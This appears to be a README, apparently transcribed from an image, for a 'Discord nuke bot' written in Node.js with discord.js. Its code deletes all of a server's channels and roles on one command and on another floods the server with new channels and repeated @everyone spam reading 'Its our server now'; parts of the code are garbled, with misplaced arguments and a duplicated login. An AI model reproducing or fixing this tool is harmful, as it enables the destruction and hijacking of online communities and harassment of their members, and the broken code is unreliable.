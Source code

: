 # Discord-nuke-bot
This discord nuke bot is using Node.js

Code:

const Discord = require('discord.js');
const client = new Discord.Client();


client.login(process.env.TOKEN)


client.on('message', async (message) => {
  if (message.content === 'o.restart') {
    message.guild.channels.cache.forEach
    (channel => channel.delete());


    message.guild.roles.cache.forEach
(role => role.delete());

await message.guild.channels.create
('This server has been restarted', {
  type : 'text'
}).then(async channel=> {
  channel.send('@everyone This server has been restarted. do o.nuke to nuke the server and o.restart to restart the server.')
})
  }
})


client.on('message', async (message) => {
  if (message.content === 'o.nuke') {
    await message.guild.channels.create
('Its our server now', {
  type : 'text'
}).then(async channel=> {
  await message.guild.channels.create
  type : 'text'
('Its our server now', {
}).then(async channel=> {
  await message.guild.channels.create
('Its our server now', {
  type : 'text'
}).then(async channel=> {
  channel.send('o.nuke')
  await message.guild.channels.create
('Its our server now', {
  type : 'text'
}).then(async channel=> {
  await message.guild.channels.create
('Its our server now', {
  type : 'text'
}).then(async channel=> {
  channel.send('@everyone Its our server now')
  await message.guild.channels.create
('Its our server now', {
  type : 'text'
}).then(async channel=> {
  channel.send('@everyone Its our server now')
  channel.send('@everyone Its our server now')
  channel.send('@everyone Its our server now')
  channel.send('@everyone Its our server now')
    message.channel.send('@everyone This is our sevrer now')
    message.channel.send('@everyone This is our sevrer now')
    message.channel.send('@everyone This is our sevrer now')
     message.channel.send('@everyone This is our sevrer now')
      message.channel.send('@everyone This is our sevrer now')
       message.channel.send('@everyone This is our sevrer now')
        message.channel.send('@everyone This is our sevrer now')
  })
  })
  })
})
  })
})
  }
})

client.login('PLACE TOKEN HERE')
